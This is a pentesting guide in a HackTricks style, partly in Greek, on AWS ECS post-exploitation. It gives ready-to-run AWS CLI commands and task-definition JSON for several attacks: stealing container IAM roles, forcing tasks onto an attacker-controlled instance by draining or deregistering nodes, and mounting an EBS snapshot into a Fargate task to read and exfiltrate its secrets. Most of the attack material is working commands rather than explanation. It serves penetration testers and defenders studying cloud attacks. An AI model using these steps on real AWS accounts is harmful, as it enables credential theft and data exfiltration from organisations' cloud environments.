 # AWS - ECS Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

For more information check:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Host IAM Roles

Στο ECS ένα **IAM role can be assigned to the task** που τρέχει μέσα στο container. **If** το task τρέχει μέσα σε ένα **EC2** instance, το **EC2 instance** θα έχει **another IAM** role attached to it.\
Which means that if you manage to **compromise** an ECS instance you can potentially **obtain the IAM role associated to the ECR and to the EC2 instance**. Για περισσότερες πληροφορίες σχετικά με το πώς να αποκτήσετε αυτά τα διαπιστευτήρια δείτε:

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html
{{#endref}}

> [!CAUTION]
> Note that if the EC2 instance is enforcing IMDSv2, [**according to the docs**](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-v2-how-it-works.html), the **response of the PUT request** will have a **hop limit of 1**, making impossible to access the EC2 metadata from a container inside the EC2 instance.

### Privesc to node to steal other containers creds & secrets

But moreover, EC2 uses docker to run ECS tasks, so if you can escape to the node or **access the docker socket**, you can **check** which **other containers** are being run, and even **get inside of them** and **steal their IAM roles** attached.

#### Making containers run in current host

Furthermore, the **EC2 instance role** will usually have enough **permissions** to **update the container instance state** of the EC2 instances being used as nodes inside the cluster. An attacker could modify the **state of an instance to DRAINING**, then ECS will **remove all the tasks from it** and the ones being run as **REPLICA** will be **run in a different instance,** potentially inside the **attackers instance** so he can **steal their IAM roles** and potential sensitive info from inside the container.
```bash
aws ecs update-container-instances-state \
--cluster <cluster> --status DRAINING --container-instances <container-instance-id>
```
Η ίδια τεχνική μπορεί να γίνει **αφαιρώντας το EC2 instance από το cluster**. Αυτό είναι ενδεχομένως λιγότερο stealthy αλλά θα **αναγκάσει τα tasks να εκτελεστούν σε άλλες instances:**
```bash
aws ecs deregister-container-instance \
--cluster <cluster> --container-instance <container-instance-id> --force
```
Μια τελική τεχνική για να εξαναγκάσετε την επανεκτέλεση των tasks είναι να υποδείξετε στο ECS ότι το **task ή container τερματίστηκε**. Υπάρχουν 3 πιθανές APIs για να το κάνετε αυτό:
```bash
# Needs: ecs:SubmitTaskStateChange
aws ecs submit-task-state-change --cluster <value> \
--status STOPPED --reason "anything" --containers [...]

# Needs: ecs:SubmitContainerStateChange
aws ecs submit-container-state-change ...

# Needs: ecs:SubmitAttachmentStateChanges
aws ecs submit-attachment-state-changes ...
```
### Κλέψτε ευαίσθητες πληροφορίες από ECR containers

Η EC2 instance πιθανότατα θα έχει επίσης την άδεια `ecr:GetAuthorizationToken` που της επιτρέπει να **κατεβάζει images** (μπορείτε να αναζητήσετε ευαίσθητες πληροφορίες μέσα σε αυτά).



### Mount an EBS snapshot directly in an ECS task (configuredAtLaunch + volumeConfigurations)

Κακοχρησιμοποιήστε την native ECS EBS integration (2024+) για να προσαρτήσετε τα περιεχόμενα ενός υπάρχοντος EBS snapshot απευθείας μέσα σε ένα νέο ECS task/service και να διαβάσετε τα δεδομένα του από μέσα στο container.

- Απαιτείται (ελάχιστα):
- ecs:RegisterTaskDefinition
- Ένα από: ecs:RunTask OR ecs:CreateService/ecs:UpdateService
- iam:PassRole σε:
  - ECS infrastructure role που χρησιμοποιείται για volumes (policy: `service-role/AmazonECSInfrastructureRolePolicyForVolumes`)
  - Task execution/Task roles που αναφέρονται στο task definition
- Αν το snapshot είναι κρυπτογραφημένο με CMK: απαιτούνται δικαιώματα KMS για τον infra ρόλο (η AWS managed policy παραπάνω περιλαμβάνει τα απαιτούμενα KMS grants για AWS managed keys).

- Επίπτωση: Ανάγνωση αυθαίρετων περιεχομένων δίσκου από το snapshot (π.χ. αρχεία βάσης δεδομένων) μέσα στο container και εξαγωγή μέσω network/logs.

Βήματα (παράδειγμα Fargate):

1) Δημιουργήστε τον ECS infrastructure role (αν δεν υπάρχει) και επισυνάψτε την managed policy:
```bash
aws iam create-role --role-name ecsInfrastructureRole \
--assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ecsInfrastructureRole \
--policy-arn arn:aws:iam::aws:policy/service-role/AmazonECSInfrastructureRolePolicyForVolumes
```
2) Καταχώρισε ένα task definition με έναν volume σημειωμένο ως `configuredAtLaunch` και προσάρτησέ τον στο container. Παράδειγμα (εκτυπώνει το secret και μετά κοιμάται):
```json
{
"family": "ht-ebs-read",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"executionRoleArn": "arn:aws:iam::<ACCOUNT_ID>:role/ecsTaskExecutionRole",
"containerDefinitions": [
{"name":"reader","image":"public.ecr.aws/amazonlinux/amazonlinux:latest",
"entryPoint":["/bin/sh","-c"],
"command":["cat /loot/secret.txt || true; sleep 3600"],
"logConfiguration":{"logDriver":"awslogs","options":{"awslogs-region":"us-east-1","awslogs-group":"/ht/ecs/ebs","awslogs-stream-prefix":"reader"}},
"mountPoints":[{"sourceVolume":"loot","containerPath":"/loot","readOnly":true}]
}
],
"volumes": [ {"name":"loot", "configuredAtLaunch": true} ]
}
```
3) Δημιουργήστε ή ενημερώστε μια υπηρεσία περνώντας το EBS snapshot μέσω του `volumeConfigurations.managedEBSVolume` (απαιτεί iam:PassRole στον ρόλο υποδομής). Παράδειγμα:
```json
{
"cluster": "ht-ecs-ebs",
"serviceName": "ht-ebs-svc",
"taskDefinition": "ht-ebs-read",
"desiredCount": 1,
"launchType": "FARGATE",
"networkConfiguration": {"awsvpcConfiguration":{"assignPublicIp":"ENABLED","subnets":["subnet-xxxxxxxx"],"securityGroups":["sg-xxxxxxxx"]}},
"volumeConfigurations": [
{"name":"loot","managedEBSVolume": {"roleArn":"arn:aws:iam::<ACCOUNT_ID>:role/ecsInfrastructureRole", "snapshotId":"snap-xxxxxxxx", "filesystemType":"ext4"}}
]
}
```
4) Όταν το task ξεκινά, το container μπορεί να διαβάσει τα περιεχόμενα του snapshot στο διαμορφωμένο mount path (π.χ., `/loot`). Exfiltrate μέσω του task’s network/logs.

Καθαρισμός:
```bash
aws ecs update-service --cluster ht-ecs-ebs --service ht-ebs-svc --desired-count 0
aws ecs delete-service --cluster ht-ecs-ebs --service ht-ebs-svc --force
aws ecs deregister-task-definition ht-ebs-read
```
{{#include ../../../../banners/hacktricks-training.md}}
